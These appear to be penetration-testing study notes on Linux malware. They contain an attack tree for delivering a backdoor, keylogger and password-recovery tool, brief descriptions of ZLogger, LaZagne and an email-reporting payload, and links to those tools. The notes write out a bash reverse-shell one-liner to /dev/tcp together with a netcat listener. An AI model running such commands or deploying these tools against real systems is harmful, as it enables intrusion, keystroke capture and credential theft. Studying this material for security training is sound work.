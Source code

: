 # Linux malware

## Attack tree

```text
1 Backdoor
    1.1 Generate
        1.1.1 Metasploit meterpreter (OR)
        1.1.2 With TheFatRat (Trodebi) (OR)
        1.1.2 Powershell stager (usestager multi/bash) 
    1.2 Download to target machine
    1.3 Test it works
2 Keylogger
    2.1 Install and use Zlogger command
    2.2 Download to target machine
    2.3 Test it works (make executable, run in terminal, do some keystrokes, check mail)
3 Password recovery tool
    3.1 Download repo and compile latest release OR use the standalone release for Linux (version 1.0)
    3.2 Download to target machine
    3.3 Test it works (make executable, run in terminal)
```

## Notes

### Bash backdoor

Bash is a command language used in Unix & Unix-like operating systems:
* Linux
* Mac OS X
* IOS
* Android

Bash can be used to send a reverse shell to a remote computer. Simplest form:

On the target machine:
```text
$ bash -i >& /dev/tcp/192.168.122.108/8080 0>&1
```

On the kali machine:
```text
# nc -vv -l -p 8080
```

### ZLogger

Zlogger is a remote keylogger for Linux:
* Runs in the background of target system.
* Reports every key pressed on the target machine to email.
* Starts with system boot.
* Does not require root.

Remove it:

```text
$ cd .config/autostart
$ rm xinput.desktop
```
After restarting it is not running.

## LazaGne

LazaGNe is a post exploitation tool to retrieve saved passwords on local computer:
* Recovers saved passwords from lots of programs.
* Recovers passwords from memory.
* Works with Windows and Linux.
* Displays result on screen or store it on local machine.

## Execute & Report

Execute and Report is a simple payload:
* Executes a command.
* Waits for result and sends it by email.
* Execute linux commands and get info from computer.
* Download a file, execute it and report its output.
* ...

## Tools

* [Zlogger](https://github.com/z00z/ZLogger)
* [LazaGNe](https://github.com/AlessandroZ/LaZagne)
* [ZReporter](https://github.com/z00z/ZReporter)

## Cheatsheets

* [Empire wiki](https://bc-security.gitbook.io/empire-wiki/)
